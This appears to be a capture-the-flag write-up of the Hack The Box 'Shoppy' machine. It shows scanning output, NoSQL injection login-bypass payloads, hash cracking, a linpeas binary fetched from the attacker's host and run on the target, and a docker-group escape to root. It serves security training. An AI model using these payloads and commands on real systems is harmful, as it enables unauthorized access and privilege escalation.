

# Hackthebox - Shoppy

- Linux


- [Box on HTB](https://app.hackthebox.com/machines/151)

## Nmap

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -T4 -sC -sV -O -Pn -p- 10.10.11.180         
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-24 09:14 EDT
Nmap scan report for 10.10.11.180
Host is up (0.022s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Sat, 24 Sep 2022 13:27:12 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 7
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 7
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 1.653e-05
|     go_gc_duration_seconds{quantile="0.25"} 8.054e-05
|_    go_gc_durat
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.92%I=7%D=9/24%Time=632F05AF%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,2A5A,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Sat,\x2
SF:024\x20Sep\x202022\x2013:27:12\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles_
SF:total\x207\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20application
SF:\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc_
SF:cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc_
SF:cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x2
SF:0TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_to
SF:tal_gc_cycles_total\x207\n#\x20HELP\x20go_gc_duration_seconds\x20A\x20s
SF:ummary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collection
SF:\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_dur
SF:ation_seconds{quantile=\"0\"}\x201\.653e-05\ngo_gc_duration_seconds{qua
SF:ntile=\"0\.25\"}\x208\.054e-05\ngo_gc_durat")%r(HTTPOptions,2F0E,"HTTP/
SF:1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\x
SF:20charset=utf-8\r\nDate:\x20Sat,\x2024\x20Sep\x202022\x2013:27:12\x20GM
SF:T\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20ru
SF:ntime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counter
SF:\ngo_gc_cycles_automatic_gc_cycles_total\x207\n#\x20HELP\x20go_gc_cycle
SF:s_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x2
SF:0forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_forced
SF:_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\n
SF:#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\x
SF:20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycle
SF:s_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x207\n#\x20HELP\
SF:x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20dura
SF:tion\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_dur
SF:ation_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x201\.
SF:653e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x208\.054e-05\ngo_g
SF:c_durat");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/24%OT=22%CT=1%CU=35629%PV=Y%DS=2%DC=I%G=Y%TM=632F060
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 837.29 seconds
```

## Port 80

- According to nmap we should change our hosts fil /etc/hosts and add this line `10.10.11.180	shoppy.htb`
- If we then browse to http://shoppy.htb/ we get this page  
  

### Gobuster

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://shoppy.htb/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/24 09:50:27 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 179] [--> /images/]
/login                (Status: 200) [Size: 1074]              
/admin                (Status: 302) [Size: 28] [--> /login]   
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/Login                (Status: 200) [Size: 1074]              
/js                   (Status: 301) [Size: 171] [--> /js/]    
/fonts                (Status: 301) [Size: 177] [--> /fonts/] 
/Admin                (Status: 302) [Size: 28] [--> /login]
/exports              (Status: 301) [Size: 181] [--> /exports/]
```

- Let's try a bigger wordlist

- We have a login page  
  
- We can try nosql injection. This [Video of Farah Hawa](https://youtu.be/cuqkhLkekY4) explains it very well
- Using the video I tried a few payload and got an interesting output with this one

```json
{
    "username":"shoppy",
    "password":{
        $gt:""
    }
}
```

- We get an error that reveals a username `jaeger`  
  
- I did forget the quotes for the $gt. Let's try this

```json
{
    "username":"jaeger",
    "password":{
        "$gt":""
    }
}
```

- We get the same error
- Let's have a look at NoSQLInjection payloads from [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- These give a 504

```json

{"username": {"$ne": null}, "password": {"$ne": null}}

========================================================

{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}

```

- We do not get anything here let's try this `|| 1==1` which looks like the classic sql injection translated in noSQL. You cand find it in [this section](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#mongodb-payloads) of payloadAllTheThings github
- So let's change our request back in x-www-form-urlencoded. I tried with the username `jaeger` and got nothing but with `admin` it worked.
- Here is the working request

```html
username=admin%27%7C%7C%271%3D%3D1&password=test
```

- We can see that we get a cookie and are redirected  

  

- Once logged in we get this page  


- We have function search user.
- If we look for admin we get the possibility to "Download Export" which gives json file.  

  

- Here is the json we get when downloading the export  


- We have a hash for the admin password `23c6877d9e2b564ef8b32c3a23de27b2`
- Let's try to crack it. Before using hashcat I like to check on  

[crackstation](https://crackstation.net/). It does not find it so let's try to crack it

- Just for sanitiy I checked it with `hash-identifier` it is MD5
- No luck with hashcat either. Let's explore the website again. Let's try again with nosqlinjection on the search field. We might get more users this way.
- Ok I am trying the exact same paylaod  

  

- It works we get one more user
  

- Let's try to crack josh's password now. And it works with crackstation! `remembermethisway`  


- The password does not work on ssh
- Maybe it's time to enumerate subdomain. I always forget to do it at the begining but here it is worth trying because this password must work somewhere else.
- I tried the big list in web content of sec list but had no luck the one that worked is the first in the DNS folder `wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb/' -H "HOST: FUZZ.shoppy.htb" --hc 301`

```bash
┌──(kali㉿kali)-[~]
└─$ wfuzz -c -f sub-fighter -w /usr/share/wordlists/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -u 'http://shoppy.htb/' -H "HOST: FUZZ.shoppy.htb" --hc 301
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://shoppy.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

000047340:   200        0 L      141 W      3122 Ch     "mattermost - mattermost" 
Total time: 0
Processed Requests: 100000
Filtered Requests: 99999
Requests/sec.: 0
```

- We have something here. Let's add it in our /etc/hosts file `10.10.11.180 	shoppy.htb mattermost.shoppy.htb`
And when we browse to `http://mattermost.shoppy.htb/` we end up here.
- Now let's try to login with our cracked password `josh:remembermethisway`
- And it works  

- Here are more info about [mattermost](https://mattermost.com/)
- It is a platform with workspaces and chat for work. The version is 7.1.2 as we can see in the about pop up here  



- If we browse we can find some sensitive information in the "Deploy Machine" channel


- Let's try to connect with ssh with these `jaeger:Sh0ppyBest@pp!`. It works


## Privilege Escalation

### From jaeger to deploy

- First let's `sudo -l`


Let's have a look at this password-manager thing. There was a hint about it also in mattermost.

- If we launch it it will ask for a password `sudo -u deploy /home/deploy/password-manager`

- we need to lookup for a password in the files we can read.
- Let's make a strings on the binary `strings /home/deploy/password-manager`. The following lines are interesting


- Maybe if we use cat we will actually see a password `cat /home/deploy/password-manager`


- Let's try `Sample` as a password. It works. We get another password `Deploying@pp!` the one for the user deploy


### From deploy to root

- We can now ssh as deploy


- sudo -l does not help here let's get linpeas. Here are the spec of our target `Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64 GNU/Linux`  

- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- `python3 -m http.server 80`
- And in our target `wget http://10.10.14.4/linpeas_linux_amd64`
- `chmod +x linpeas_linux_amd64`
- `./linpeas_linux_amd64`
- So we need to analyze further a few things
  - It mentions docker as a 95% pe vector so def worth having a look. The deploy user is a member of the docker group. Also I remember of an example that was using this. Let's check [gtfobins](https://gtfobins.github.io/gtfobins/docker/) 
- We can run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` and it works! We are now root and can grab the last flag.


